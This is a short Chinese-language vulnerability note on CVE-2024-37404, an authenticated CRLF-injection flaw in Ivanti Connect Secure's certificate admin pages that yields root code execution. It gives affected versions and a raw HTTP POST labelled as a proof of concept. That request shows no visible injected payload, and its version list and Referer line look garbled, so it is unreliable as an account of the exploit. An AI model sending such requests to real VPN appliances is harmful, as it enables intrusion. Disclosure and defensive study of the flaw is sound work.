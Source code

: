 # CVE-2024-37404

>Ivanti Connect Secure是一款远程访问和零信任安全解决方案，它提供了SSL VPN功能，使远程和移动用户能够安全地访问企业资源。

## 来源

[https://blog.amberwolf.com/blog/2024/october/cve-2024-37404-ivanti-connect-secure-authenticated-rce-via-openssl-crlf-injection/](https://blog.amberwolf.com/blog/2024/october/cve-2024-37404-ivanti-connect-secure-authenticated-rce-via-openssl-crlf-injection/)

## 简介

Ivanti Connect Secure的/dana-admin/cert/admincert.cgi接口存在CRLF注入漏洞，经过身份验证的管理员可以利用该漏洞以root特权执行任意代码。

## 漏洞类型

CRLF注入

## 影响范围

-   Ivanti Connect Secure < 22.7R2.1
-   Ivanti Connect Secure < 22.7R2.2
-   Ivanti Connect Secure < 22.7R1.1

## POC

```http
POST /dana-admin/cert/admincertnewcsr.cgi HTTP/1.1
Host: 192.168.2.92
Cookie: DSSignInURL=/admin; SUPPORTCHROMEOS=1; PHC_DISABLED=1; DSBrowserID=f5afd4b930af818747c03bc6f2adaf59; id=state_16f05e4e8ed9a95921f9e5561b63b977; DSSIGNIN=url_admin; DSPERSISTMSG=; DSDID=00064f3b9acd709a; DSFirstAccess=1705398262; DSLastAccess=1705398282; DSLaunchURL=2F64616E612D61646D696E2F636572742F61646D696E636572742E636769; DSID=4b2c0f96862dc17c23622ef26a7a6db8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 594
Origin: https://192.168.2.92
Referer: https://192.168.2.92/dana-admin/cert/admincertnewcsr.cgideletecsr=&selectedCSRIds=&xsauth=4e2fea1b8e12585a4744fc72820de0cc
Connection: close

xsauth=4e2fea1b8e12585a4744fc72820de0cc&commonName=vpn.pcs.local&organizationName=Example+Corp&organizationalUnitName=IT+Group&localityName=SomeCity&stateOrProvinceName=California&countryName=US&emailAddress=test%40example.com&keytype=RSA&keylength=1024&eccurve=prime256v1&random=aaaaaaaaaaaaaaaaaaaa&newcsr=yes&certType=device&btnCreateCSR=Create+CSR
```

